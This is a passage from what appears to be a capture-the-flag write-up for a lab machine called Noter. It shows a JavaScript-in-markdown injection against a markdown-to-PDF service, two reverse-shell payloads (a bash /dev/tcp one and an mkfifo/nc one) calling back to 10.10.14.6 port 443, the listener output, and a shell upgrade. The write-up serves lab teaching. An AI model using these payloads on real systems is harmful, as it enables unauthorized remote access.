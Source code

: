         else:
            abort(403)



The client-side filtering wants the input file to be a markdown file,
and this is markdown to pdf, so I'll create a simple `payload.md`:



    ---js\n((require("child_process")).execSync("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"))\n---RCE



I'll start a Python webserver and a `nc` listener, and submit
`http://10.10.14.6/payload.md` to Noter. There's a connection at the
webserver and then a connect at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.160 60204
    /bin/bash: 1"))\n---RCE: ambiguous redirect



It's not liking a redirect, which is largely what this shell is based on
(see my [detailed video](https://www.youtube.com/watch?v=OjkVep2EIlw) on
it). I'll switch to the `mkfifo` rev shell (detailed
[video](https://www.youtube.com/watch?v=_q_ZCy-hEqg) on that one too)
with a new payload:



    ---js\n((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f"))\n---RCE



This time it works!



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.160 60316
    /bin/sh: 0: can't access tty; job control turned off
    $



I'll do the [shell upgrade
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    $ script /dev/null -c bash
    Script started, file is /dev/null
    svc@noter:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    svc@noter:~$ 

